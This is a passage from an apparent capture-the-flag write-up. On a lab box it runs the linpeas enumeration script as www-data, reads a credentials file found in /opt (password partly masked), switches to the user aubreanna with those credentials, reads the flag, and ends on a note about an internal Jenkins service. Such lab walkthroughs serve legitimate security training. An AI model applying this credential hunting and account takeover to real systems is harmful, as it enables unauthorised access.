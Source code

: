 Once with the script downloaded and with the right permissions, we can execute it.

```bash
www-data@internal:/tmp$ ./linpeas.sh 

<REDACTED>

╔══════════╣ Unexpected in /opt (usually empty)
total 16
drwxr-xr-x  3 root root 4096 Aug  3  2020 .
drwxr-xr-x 24 root root 4096 Aug  3  2020 ..
drwx--x--x  4 root root 4096 Aug  3  2020 containerd
-rw-r--r--  1 root root  138 Aug  3  2020 wp-save.txt

<REDACTED>
```

After a quick look to the output, i found an file named `wp-save.txt` under `/opt`, after reading it's content, i found credentials for the user `aubreanna`.

```bash
www-data@internal:/tmp$ cat /opt/wp-save.txt 
Bill,

Aubreanna needed these credentials for something later.  Let her know you have them and where they are.

aubreanna:b**b13g******23
```

So, let's log in as `aubreanna`.

```bash
www-data@internal:/tmp$ su aubreanna
Password: *************
aubreanna@internal:/tmp$ 
```

---

## Shell as aubreanna

Once as user `aubreanna` we can read the `user.txt` flag at `/home/aubreanna/user.txt`.

```bash
aubreanna@internal:~$ cat /home/aubreanna/user.txt 
THM{***************}
```

Checking the `aubreanna` home directory there is a file named `jenkins.txt` telling us that there is Jenkins service running internally.

```bash
aubreanna@internal:~$ cat jenkins.txt 
Internal Jenkins service is running on 172.17.0.2:8080
```
